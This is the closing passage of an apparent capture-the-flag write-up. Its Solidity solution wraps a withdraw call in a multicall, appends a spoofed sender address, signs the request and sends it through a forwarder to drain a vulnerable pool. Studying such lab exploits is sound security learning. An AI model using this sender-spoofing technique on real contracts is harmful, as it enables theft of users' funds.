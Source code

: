 ```solidity
    bytes memory Withdrawdata = abi.encodeWithSignature("withdraw(uint256,address)", total, recovery, deployer);
    bytes[] memory multicall_data_array = new bytes[](1);
    multicall_data_array[0] = Withdrawdata;
    bytes memory multicallEncodedData = abi.encodeWithSignature("multicall(bytes[])", multicall_data_array);
    BasicForwarder.Request memory executeRequest = BasicForwarder.Request({
        from: player,
        target: address(pool),
        value: 0,
        gas: 100000,
        nonce: vm.getNonce(player),
        data: multicallEncodedData,
        deadline: block.timestamp + 1000
    });

    bytes32 digest =
        keccak256(abi.encodePacked("\x19\x01", forwarder.domainSeparator(), forwarder.getDataHash(executeRequest)));

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);

    forwarder.execute(executeRequest, abi.encodePacked(r, s, v));
}
```

That's it for this challenge. Hope you enjoyed it. If you have any queries, leave a comment below.
